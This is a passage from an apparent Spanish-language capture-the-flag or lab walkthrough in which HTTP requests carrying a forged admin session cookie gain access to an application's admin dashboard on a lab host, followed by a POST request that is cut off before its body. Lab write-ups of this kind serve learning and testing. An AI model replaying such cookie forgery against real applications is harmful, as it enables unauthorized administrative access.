 ```html

Sec-GPC: 1

Connection: keep-alive

Cookie: is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0

Upgrade-Insecure-Requests: 1

Priority: u=0, i
```


Resultado:

Acceso concedido al **dashboard de administración** de la aplicación.

![Captura](./Imagenes/dashboard.png)
--- 

Acción:

```html 
POST /dashboard HTTP/1.1

Host: 10.10.11.8:5000

User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Referer: http://10.10.11.8:5000/dashboard

Content-Type: application/x-www-form-urlencoded

Content-Length: 15

Origin: http://10.10.11.8:5000

DNT: 1

Sec-GPC: 1

Connection: keep-alive

Cookie: is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0

Upgrade-Insecure-Requests: 1

Priority: u=0, i
```